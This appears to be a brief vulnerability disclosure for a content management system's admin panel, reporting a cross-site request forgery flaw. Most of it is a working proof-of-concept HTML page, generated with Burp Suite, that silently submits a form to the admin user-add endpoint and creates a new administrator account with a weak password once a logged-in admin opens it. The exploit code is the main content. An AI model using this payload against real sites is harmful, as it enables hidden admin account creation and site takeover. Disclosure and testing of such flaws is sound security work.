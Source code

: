There is a CSRF vulnerability that can add the administrator account
After the administrator logged in, open this CSRFpoc page
CSRF.html
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://pboot.com:12345/admin.php?p=/User/add" method="POST">
      <input type="hidden" name="formcheck" value="d48ee9bffae5f7fb7022ea1e7dd4a224" />
      <input type="hidden" name="username" value="TplusSs" />
      <input type="hidden" name="realname" value="asd" />
      <input type="hidden" name="password" value="123" />
      <input type="hidden" name="rpassword" value="123" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="roles&#91;0&#93;" value="R101" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```
Then open the “/admin.php?p=/User/index” page to see the added system administrator
